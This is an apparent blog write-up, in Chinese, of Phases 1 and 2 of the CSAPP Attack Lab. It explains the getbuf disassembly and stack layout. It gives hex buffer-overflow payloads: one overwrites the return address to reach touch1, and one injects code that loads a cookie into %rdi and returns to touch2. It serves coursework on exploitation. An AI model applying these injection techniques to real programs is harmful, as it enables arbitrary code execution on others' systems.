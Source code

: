 ```yaml
---
title: Attack Lab 记录
top_img: false
cover: /img/CSAPP.jpeg
date: 2020-12-16 17:14:09
tags:
- CSAPP
---
```


## Phase 1

先反汇编得到`getbuf`的代码

```assembly
00000000004017d3 <getbuf>:
  4017d3:	48 83 ec 38          	sub    $0x38,%rsp
  4017d7:	48 89 e7             	mov    %rsp,%rdi
  4017da:	e8 44 02 00 00       	callq  401a23 <Gets>
  4017df:	b8 01 00 00 00       	mov    $0x1,%eax
  4017e4:	48 83 c4 38          	add    $0x38,%rsp
  4017e8:	c3                   	retq   
```

第2行中，申请了0x38字节的空间，然后将栈顶的地址作为参数调用`Gets`。所以`BUFFER_SIZE`是0x38。

这里的逻辑是：`test`函数调用`getbuf`函数，`getbuf`函数再调用`Gets`，而写入字符串的动作在`Gets`函数里。在`test`中`call getbuf`时，将`test`函数（里一条指令）的地址压入了栈，然后在`getbuf`中`call Gets`时，再将`getbuf`的一条指令地址压入栈（这里其实是代码里第五条指令）。也就是说，能更改的只能是第一次压入栈的地址，因为它处于为字符串分配的空间的高地址处。因此需要改变的行为是：让`getbuf`返回时，让它不回到`test`而前往`touch1`。

找到`touch1`的汇编

```assembly
00000000004017e9 <touch1>:
  4017e9:	48 83 ec 08          	sub    $0x8,%rsp
  4017ed:	c7 05 05 2d 20 00 01 	movl   $0x1,0x202d05(%rip)        # 6044fc <vlevel>
  4017f4:	00 00 00 
  4017f7:	48 8d 3d bd 17 00 00 	lea    0x17bd(%rip),%rdi        # 402fbb <_IO_stdin_used+0x2cb>
  4017fe:	e8 2d f4 ff ff       	callq  400c30 <puts@plt>
  401803:	bf 01 00 00 00       	mov    $0x1,%edi
  401808:	e8 2d 04 00 00       	callq  401c3a <validate>
  40180d:	bf 00 00 00 00       	mov    $0x0,%edi
  401812:	e8 99 f5 ff ff       	callq  400db0 <exit@plt>
```

那就很简单了，只要把前0x38个字符先随便填，然后把`touch1`的地址写入就好了。（小端）

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
e9 17 40 00 00 00 00 00
```

## Phase 2

Phase 2 有个额外的要求就是把Cookie当作参数传入，我的Cookie是`0x615ab299`。那单单修改返回地址就不够了，因为程序正常执行时，并不会把Cookie传入`%rdi`，那只要把指令写到栈中，让它`ret`到我的指令上就可以了。那该如何再回到`touch2`呢？我的做法是将Cookie传入`%rdi`后，再往栈中压入`touch2`的地址，再`ret`。

touch2的地址：0x401817

我需要插入三条指令，让`getbuf`遇到`ret`后先来到我的指令，然后再前往`touch2`

```assembly
getbuf:
  sub    $0x38,%rsp
  mov    %rsp,%rdi
  callq  401a23 <Gets>
  mov    $0x1,%eax
  add    $0x38,%rsp
  retq
MyAss:
  movq	 $0x615ab299, %rdi
  push	 $0x401817
  ret
```

最后用gcc和objdump就能得到源码

```assembly
48 c7 c7 99 b2 5a 61 /* movq	 $0x615ab299, %rdi */
68 17 18 40 00 /* push	 $0x401817 */
c3 /* ret */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 ec 66 55 00 00 00 00 /* 0x38个字节的首地址，也就是我的指令的初始地址*/
```
